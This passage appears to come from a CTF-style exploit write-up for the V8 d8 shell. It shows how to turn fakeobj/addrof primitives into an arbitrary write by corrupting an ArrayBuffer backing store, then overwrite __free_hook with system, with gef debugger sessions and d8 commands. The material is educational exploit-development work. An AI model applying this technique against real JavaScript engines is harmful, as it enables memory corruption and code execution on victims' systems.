 Let's take an example:
```
gef➤  p &__free_hook
$1 = (void (**)(void *, const void *)) 0x7f5c5ecf58e8 <__free_hook>
gef➤  p &system
$2 = (int (*)(const char *)) 0x7f5c5e957440 <__libc_system>
gef➤  c
Continuing.

d8> initial_arb_write(0x7f5c5ecf58e8, 0x7f5c5e957440);

<Program segfaults right here>
```

Now, I don't exactly know why this occurs, and I haven't found an explanation when I looked online. However, I do know that the real way to get an arbitrary write primitive is to overwrite the backing store of an `ArrayBuffer` with the address you want to write to. Then, using a `DataView` object to write to the `ArrayBuffer` will write to your overwritten address. If you've never coded in JavaScript before (like me), the MDN documentation for `ArrayBuffer` and `DataView` explains how to use them together.

The backing store of an `ArrayBuffer` can be thought of as the same as the `elements` pointer of a `JSArray`. It is found at offset `&ArrayBuffer+0x20`, which you can find out by using the x64.debug version of `d8`. The idea is that instead of using a `fakeobj` to write directly to an arbitrary address, we use the `fakeobj` to do our `initial_arb_write` and modify the backing store of a legitimate `ArrayBuffer` to our arbitrary address. Following this, we can use `dataview.setBigUint64(0, val, true)` to write our `val` as a little-endian 64 bit value to our arbitrary address. This is shown below:
```
gef➤  p &__free_hook
$3 = (void (**)(void *, const void *)) 0x7fb610ed08e8 <__free_hook>
gef➤  p &system
$4 = (int (*)(const char *)) 0x7fb610b32440 <__libc_system>
gef➤  c

d8> var buf = new ArrayBuffer(8);
undefined
d8> var dataview = new DataView(buf);
undefined
d8> var buf_addr = addrof(buf);
undefined
d8> var backing_store_addr = buf_addr+0x20n
undefined

// Overwrite backing store to &__free_hook
d8> initial_arb_write(backing_store_addr, 0x7fb610ed08e8);
undefined
d8> dataview.setBigUint64(0, BigInt(0x7fb610b32440), true);
undefined
sh: 1: undefined: not found

gef➤  x/gx &__free_hook
0x7fb610ed08e8 <__free_hook>:	0x00007fb610b32440
```
